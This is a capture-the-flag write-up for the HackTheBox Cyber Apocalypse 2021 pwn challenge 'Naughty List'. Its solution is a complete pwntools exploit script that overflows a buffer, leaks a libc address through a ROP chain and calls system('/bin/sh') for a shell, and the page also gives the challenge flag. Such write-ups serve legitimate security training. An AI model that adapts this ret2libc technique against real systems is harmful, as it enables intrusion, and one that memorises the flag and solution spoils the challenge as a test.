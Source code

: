 ```yaml
---
name: Naughty List (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Naughty List (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Naughty List

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3GGpyEkt8GE/0.jpg)](https://youtu.be/3GGpyEkt8GE?t=916s "HTB Cyber Apocalypse CTF 2021: Naughty List")

## Challenge Description

> The Elves have stolen Santa's 📜 and now he does not know who was good and who was bad. This form will help him recreate his list and send out gifts. Were you good enough or naughty?

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b':', b'crypto')
    p.sendlineafter(b':', b'cat')
    p.sendlineafter(b':', b'18')
    p.sendlineafter(b':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break main
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './naughty_list'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(1000))

ret = 0x400756

# Start program
io = start()

io.sendlineafter(b':', b'crypto')
io.sendlineafter(b':', b'cat')
io.sendlineafter(b':', b'18')

# Create a ROP object to handle complexities
rop = ROP(elf)

# Payload to leak libc function
rop.puts(elf.got.puts)
rop.get_descr()

# Send the payload
io.sendlineafter(':', flat({offset: rop.chain()}))

io.recvlines(6)  # Receive up to leaked address

# Retrieve got.puts address
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Reset ROP object with libc binary
rop = ROP(libc)

# Call ROP system, passing location of "/bin/sh" string
rop.system(next(libc.search(b'/bin/sh\x00')))

# Send the payload
io.sendline(flat({offset: [ret, rop.chain()]}))

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{S4nt4_g0t_ninety9_pr0bl3ms_but_chr1stm4s_4in7_0n3}`
